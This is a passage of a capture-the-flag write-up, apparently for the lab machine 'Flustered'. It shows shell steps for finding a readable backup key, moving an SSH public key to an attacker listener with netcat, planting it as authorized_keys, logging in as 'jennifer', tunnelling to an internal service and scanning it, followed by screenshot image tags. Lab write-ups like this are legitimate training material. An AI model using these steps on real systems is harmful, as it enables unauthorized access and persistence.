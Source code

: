 ```bash
find \-name key 2>/dev/null
# --> ./var/backup/key

ls -l ./var/backup/key                  # --> jennifer can read!!!

cat /var/backup/key
```

> **Ubuntu Virtual Machine**:

```bash
cd /root
mkdir .ssh
ssh-keygen

cat id_rsa.pub           # :)
```

> **Attacker machine**:

```bash
/mnt/flustered/.ssh
nc -nlvp > authorized_keys
```

> **Ubuntu Virtual Machine**:

```bash
nc 192.168.75.128 443 < id_rsa.pub

ssh jennifer@10.10.11.131
ssh jennifer@10.10.11.131 -L 10000:172.17.0.2:10000

nmap -sCV -p10000 127.0.0.1
```

<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_60.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_61.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_62.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_63.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_64.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_65.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_66.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_67.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_68.png" width="100%" style="margin: 0 auto;display: block